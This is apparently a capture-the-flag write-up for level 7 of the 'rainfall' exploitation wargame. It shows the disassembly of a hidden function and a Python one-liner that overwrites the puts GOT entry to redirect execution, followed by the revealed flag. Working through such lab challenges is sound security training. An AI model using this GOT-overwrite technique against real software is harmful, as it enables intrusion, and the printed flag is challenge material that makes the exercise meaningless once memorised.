 For the first time during rainfall, we have an executable with two args needed, in addition we can exploit `edx` register.

We use `objdump -d level7` and we find an uncalled function again named `m` :
```asm
080484f4 <m>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 18             	sub    $0x18,%esp
 80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
 804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
 804851f:	c9                   	leave  
 8048520:	c3                   	ret 
```

The goal here is to fill `argv[1]` with puts got address is `0x8049928` and fill `argv[2]` which represents `edx` with `080484f4` :
```bash
./level7 $(python -c "print '\x28\x99\x04\x08' * 6") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1638395898
```

A suspicious number appeared after the flag which represents the `%d` from `printf`.